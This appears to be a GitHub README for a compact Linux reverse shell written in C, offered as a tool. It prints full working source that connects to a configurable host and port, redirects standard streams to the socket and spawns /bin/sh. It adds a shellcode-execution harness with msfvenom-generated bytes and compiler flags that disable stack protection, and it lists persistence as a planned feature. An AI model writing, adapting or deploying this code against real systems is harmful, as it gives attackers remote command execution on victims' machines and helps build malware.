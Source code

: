 # compact_linux_reverse_shell
A compact linux reverse shell written in the C programming language.


### todo:
- [x] (50/100 done) `adding shellcode execution (with a short & neat guide how to get shellcode without using radare2 or the classical ghidra or metasploit utils)`
- (10/100) Windows version(on going!)
- persistence mechanism
- GIST with UPDATES



### Sources:
- stack overflow
- 



### Only reverse shell

https://gist.github.com/loneicewolf/8232aad5722e1e7de9d92932b5a01597
```
#include <stdio.h>
#include <unistd.h>
#include <arpa/inet.h>
#define RP 1234
#define RH "127.0.0.1"
#define BIN "/bin/sh"
int main(){
int is = 0;is = socket(AF_INET,SOCK_STREAM,0);
struct  sockaddr_in s1;
s1.sin_family      = AF_INET;
s1.sin_port        = htons(RP);
s1.sin_addr.s_addr = inet_addr(RH);
connect( is,(struct sockaddr *) &s1,sizeof(s1));
for(int i=0;i<3;dup2(is,i),i++);
char * const argv[] = {BIN,NULL};
execve(BIN, argv, NULL);
return 0;}
```



## Addon 1: SHELLCODE EXECUTION

```
// gcc lin_1.c -o L1 -fno-stack-protector -z execstack -no-pie   -g
//  //  
//  msfvenom -p linux/x64/exec cmd="echo ABC \&\& echo XYZ" -f c -v sh_1
//  [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
//  [-] No arch selected, selecting arch: x64 from the payload
//  No encoder specified, outputting raw payload
//  Payload size: 57 bytes
//  Final size of c file: 265 bytes
//  unsigned char sh_1[] = 
//  "\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52"
//  "\x66\x68\x2d\x63\x54\x5e\x52\xe8\x15\x00\x00\x00\x65\x63\x68"
//  "\x6f\x20\x41\x42\x43\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x58"
//  "\x59\x5a\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f\x05";
//  //  

#include <stdio.h>
#include <unistd.h>

int main(){
  unsigned char sh_1[] = 
  "\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52"
  "\x66\x68\x2d\x63\x54\x5e\x52\xe8\x15\x00\x00\x00\x65\x63\x68"
  "\x6f\x20\x41\x42\x43\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x58"
  "\x59\x5a\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f\x05";
// (*(void(*)())XXX)();
(*(void(*)())sh_1)();
return 0;
}
```







